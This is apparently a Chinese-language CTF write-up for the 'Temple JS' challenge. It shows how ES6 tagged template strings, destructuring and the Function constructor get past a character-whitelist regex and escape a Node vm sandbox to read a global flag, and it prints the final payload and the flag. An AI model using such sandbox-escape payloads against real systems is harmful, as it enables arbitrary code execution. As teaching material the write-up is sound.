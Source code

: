 # Temple JS

ES6新引入了模板字符串，使用反引号括起来的字符串可以内嵌模板，也可以调用所谓的“标签”（任何普通函数都可以），如：

```js
`abc${1+1}` //"abc2"
somefunction`abc${1}def${2}ghi` //somefunction(["abc","def","ghi",{"raw":"..."}], 1, 2)
```

查看题目源码，整体流程是对我们输入的字符串进行过滤，然后放到vm里执行。过滤用的正则是`/^[a-zA-Z0-9 ${}\`]+$/g`，同时也给了一个函数`par: (v => \`(${v})\``，用来加括号。我们的目的是得到在vm外的global.flag。

首先本机跑一下，去掉正则限制，发现下面的payload可以得到flag，绕沙箱不是本题重点：

```js
par.constructor.constructor(`return flag`)()
```

不用点来调用成员，可以考虑[解构赋值](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/Destructuring_assignment)：

```js
function fff({constructor}){return constructor};

用模板字符串的方式写=>
`function fff({constructor}){return constructor}`

为了加上括号，同时将{constructor}作为第二个参数传入=>
`${`function fff${par`a${1}{constructor}`}{return constructor}`}`
```

现在我们写出来的，只是一个字符串而已。怎么调用eval来执行这个字符串呢，用\`\`必然会让第一个参数变成数组，导致eval失败。我们可以使用[Function构造函数](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function)直接建立一个eval第二个参数的函数，然后就可以将我们的字符串eval出来了：

```js
Function`a${`return eval${par`b`}`}b``${`function fff${par`a${1}{constructor}`}{return constructor}`}`

fff(par)("return flag")() => `...fff``${par}``return flag```
```

所以最后的payload就是：

```js
Function`a${`return eval${par`b`}`}b``${`function fff${par`a${1}{constructor}`}{return constructor}fff`}``${par}``return flag```
```

`p4{js_template_strings_are_so_functional}`
